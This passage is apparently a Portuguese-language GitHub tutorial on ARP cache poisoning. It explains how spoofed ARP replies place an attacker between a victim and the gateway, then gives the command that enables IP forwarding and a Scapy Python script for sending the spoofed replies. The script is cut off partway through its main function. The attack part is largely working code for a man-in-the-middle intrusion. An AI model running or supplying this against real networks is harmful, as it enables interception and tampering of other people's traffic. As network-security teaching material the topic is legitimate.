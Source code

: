 Observe agora que o que está sendo enviado para o gateway \(`192.168.1.1` no MAC `c4:e9:84:9a:14:16`\) é que o IP `192.168.1.101` \(vítima\) está \(`is-at`\) no MAC `28:56:5a:49:ff:67` \(`hwsrc`\) que na verdade é o MAC do atacante.

A partir desse momento, o gateway acha que a vítima está no MAC do atacante assim como a vítima acha que o gateway está no mesmo MAC malicioso.

## Problemas

Porém, só com isso, esse ataque ainda não é efetivo por 2 motivos:

1. Os pacotes saem do gateway e chegam no atacante, mas não vão até a vítima, assim como saem da vítima e chegam no atacante, mas não vão pro gateway. É preciso fazer com que o atacante encaminhe os pacotes para o IP certo quando passam por ele.
2. A arp cache possui um tempo de verificação de linhas obsoletas, fazendo novos arp requests para atualizá-la. Após o ataque ser feito uma vez, depois de um curto período de tempo, a cache voltaria ao normal.

## Soluções

1. Para encaminhar pacotes para os devidos IP's exitem 2 maneiras:

Pelo próprio kernel

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

ou

Utilizando o iptables

```bash
sudo apt install iptables
```

1. Para burlar o refresh da arp cache, o atacante pode enviar continuamente fake replys para sempre que um request for feito, já haja um fakereply pronto para responder. E isso pode ser feito com um [script](https://github.com/guilhermehiromoto/arp-cache-poisoning/blob/master/arp.py) em python.

```python
from scapy.all import *
import time

def getmac(targetip):
    arppacket = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
    targetmac = srp(arppacket)[0][0][1].hwsrc
    return targetmac

def poisonarpcache(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed)

def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet)
    print ("ARP Table restored to normal for", targetip)

def main():
    targetip = input("Enter Target IP:")
    gatewayip = input("Enter Gateway IP:")

    try:
        targetmac = getmac(targetip)
    except:
         print("Target machine did not respond to ARP broadcast")
         quit()

```